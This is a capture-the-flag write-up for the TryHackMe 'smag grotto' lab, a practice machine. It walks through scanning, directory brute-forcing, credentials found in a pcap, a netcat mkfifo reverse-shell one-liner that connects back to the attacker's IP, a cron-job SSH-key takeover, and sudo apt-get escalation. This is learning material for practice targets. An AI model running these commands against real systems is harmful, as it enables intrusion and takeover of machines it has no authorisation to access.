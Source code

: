 ```yaml
---
title: "TryHackMe - smag grotto writeup"
date: 2022-09-20 09:31:00 +0300
image: /assets/img/Posts/Smag.png
categories: [Tryhackme, Easy]
tags: [cronjobs, sudo, web, gobuster, revshell, ssh-keygen, GTFObins, ssh]
---
```


| Room       | [smag-grotto](https://tryhackme.com/room/smaggrotto)       |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Easy                                                       |
| description| Follow the yellow brick road                               |

>**smag-grotto** is a tryhackme machine that is testing on enumeration, a little bit of wireshark , cron jobs and a simple privilege escalation technique. Therefore this write up entails my approach to solving the machine.
{: .prompt-tip }

# Let's get started
## Nmap scan
As always, start scanning the ports, services and also the low hanging vulns using the nmap scripts. For this case i scanned for ports and found that the machine had only two ports open, 22 (SSH) and 80 (HTTP)
`sudo nmap -A -sT -sV 10.10.90.94 -oN nmap.txt`

![image](/assets/img/Posts/smag-grotto/nmap.webp)

Visited the website and there was nothing there. I tried to look the source code as i always do but there was nothing still.

![image](/assets/img/Posts/smag-grotto/web.webp)
## Directory bruteforcing
I then went on and scanned for the hidden directories using gobuster, if present. woow!! i found mail
`gobuster dir -e -u http://[targetIP] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 50 | tee gobustlog`

![image](/assets/img/Posts/smag-grotto/gobuster.webp)

Visiting the `mail` directory, i found email messages and a packet capture file. Also checking on the usernames, i realized that they were using `smag.thm` so i went on and added the domain to my `/etc/hosts` file.

![image](/assets/img/Posts/smag-grotto/hosts.webp)

Then i downloaded the `.pcap` file to my machine and opened it using wireshark.

![image](/assets/img/Posts/smag-grotto/wireshark.webp)

Read the packet by right-clicking and follow the `tcp stream`. And there were login credentials. but for which platform? because i did not find any login directory. Checking on the header, there is login form for the host `development.smag.thm`.

![image](/assets/img/Posts/smag-grotto/creds.webp)
## Initial access
I went back to my hosts file and added the development subdomain, visited the `login.php` entered the credentials. They worked, and now much interesting was directed to a page that was executing system commands, more of a webshell. what now? a reverse shell? probably. i tried the `netcat one-liner` command.
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [yourIP]1234 >/tmp/f`

![image](/assets/img/Posts/smag-grotto/webshell.webp)

and waited for the machine to connect by starting a netcat listener in my terminal `nc -nlvp 1234` and I got the connection under the user `www-data`.

![image](/assets/img/Posts/smag-grotto/revshell.webp)

## Privesc - User
I could not do anything like retrieving the flags under this user, so i thought of downloading `linpeas` from my machine. I started `python3 server` and used wget to download the file in `/tmp`.

![image](/assets/img/Posts/smag-grotto/linpeas.webp)

I made it executable by running `chmod +x linpeas.sh` and ran it `./linpeas.sh`.
cron jobs!!!!..there was an interesting cron job that was being executed as root. It is basically copy the contents of the file to `jakes’s` authorised_keys most probably the public key.

![image](/assets/img/Posts/smag-grotto/cronjobs.webp)

To use that to my benefit, i used `ssh-keygen` to create my own ssh `public key` and copied it to the `/opt/.backups/jake_id_rsa.pub.backup` and then went on to login to the jake’s ssh account using my own private key(id_rsa).

![image](/assets/img/Posts/smag-grotto/sshlogin.webp)

### User flag
cat and submit the user flag.

![image](/assets/img/Posts/smag-grotto/userflag.webp)

## Privesc - Root
Getting to root? of course, i needed to escalate my privileges to root. How? i tried `sudo -l` and that’s all, user `jake` was allowed to run the `apt-get` binary as root.

![image](/assets/img/Posts/smag-grotto/sudo.webp)

So i headed to [GTFOBins](https://gtfobins.github.io/) and searched for the binary. i got a command, executed it and i got the root shell….how 34sy!!!!

### root flag
cat `/root/root.txt`

![image](/assets/img/Posts/smag-grotto/rootflag.webp)

i hoped you enjoyed the write up:)

thank you fam!!!!!!!!!!!!!!!!!!
